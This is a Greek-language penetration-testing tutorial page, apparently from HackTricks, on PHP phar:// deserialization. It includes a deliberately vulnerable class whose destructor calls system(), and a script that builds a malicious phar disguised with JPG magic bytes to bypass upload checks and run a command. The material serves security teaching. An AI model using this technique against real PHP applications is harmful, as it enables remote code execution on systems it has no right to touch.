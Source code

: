 # phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}



**Phar** αρχεία (PHP Archive) **περιέχουν μεταδεδομένα σε σειριοποιημένη μορφή**, έτσι, όταν αναλυθούν, αυτά τα **μεταδεδομένα** **αποσειριοποιούνται** και μπορείτε να προσπαθήσετε να εκμεταλλευτείτε μια ευπάθεια **αποσειριοποίησης** μέσα στον **PHP** κώδικα.

Το καλύτερο πράγμα σχετικά με αυτή τη χαρακτηριστική είναι ότι αυτή η αποσειριοποίηση θα συμβεί ακόμη και χρησιμοποιώντας PHP συναρτήσεις που δεν εκτελούν PHP κώδικα όπως **file_get_contents(), fopen(), file() ή file_exists(), md5_file(), filemtime() ή filesize()**.

Έτσι, φανταστείτε μια κατάσταση όπου μπορείτε να κάνετε έναν PHP ιστό να πάρει το μέγεθος ενός αυθαίρετου αρχείου χρησιμοποιώντας το **`phar://`** πρωτόκολλο, και μέσα στον κώδικα βρίσκετε μια **κλάση** παρόμοια με την εξής:
```php:vunl.php
<?php
class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

filesize("phar://test.phar"); #The attacker can control this path
```
Μπορείτε να δημιουργήσετε ένα **phar** αρχείο που όταν φορτωθεί θα **καταχραστεί αυτή την κλάση για να εκτελέσει αυθαίρετες εντολές** με κάτι σαν:
```php:create_phar.php
<?php

class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
Σημειώστε πώς τα **μαγικά bytes του JPG** (`\xff\xd8\xff`) προστίθενται στην αρχή του αρχείου phar για να **παρακαμφθούν** οι **πιθανές** περιορισμοί **ανέβασμα** αρχείων.\
**Συγκεντρώστε** το αρχείο `test.phar` με:
```bash
php --define phar.readonly=0 create_phar.php
```
Και εκτελέστε την εντολή `whoami` εκμεταλλευόμενοι τον ευάλωτο κώδικα με:
```bash
php vuln.php
```
### Αναφορές

{% embed url="https://blog.ripstech.com/2018/new-php-exploitation-technique/" %}



{{#include ../../banners/hacktricks-training.md}}
